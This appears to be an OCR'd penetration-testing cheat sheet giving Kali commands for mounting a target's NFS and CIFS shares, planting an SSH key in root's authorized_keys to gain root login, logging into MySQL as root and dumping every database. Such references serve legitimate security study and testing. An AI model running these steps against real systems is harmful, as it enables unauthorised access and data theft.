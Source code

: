 ```
root@kali:Mount -t nfs [hostname or ip]:/path-to-share [path to local mount point]

root@kali:Mount -t nfs 192.168.1.1:/var/backups /mnt/backups
```

\[2]

```
root@kali:Mount -t cifs -o username=admin , password=password //192.168.1.1/shares /mnt/shares
```

#### Unmounting shares

```
root@kali:umount -f -l /mnt/nfs
```

#### Writing SSH keys to the NFS share

If the NFS shares of the target system allows you to write files then you can write SSH keys to the share and login to have root access

```
root@kali:ssh keygen
root@kali:cat ~/.ssh/id_rsa.pub >> /mnt/nfs/root/.ssh/authorized_keys
root@kali:ssh root@$ip
```

### Enumerating MYSQL

Runs on port 3306 and indicate a mysql server installed on the target.

#### Logging in

```
mysql -u root
# Connect to root without password

mysql -u root -p
# A password will be asked

mysql -h <Hostname> -u root
# if the target is remote
```

#### Extracting all database details

This requires you to have the correct login credentials.

```
mysqldump -u admin -p pass --all-databases --skip-lock-tables 
```

#### From Mysql to Root

If you get access to the mysql server as root you can have a root shell
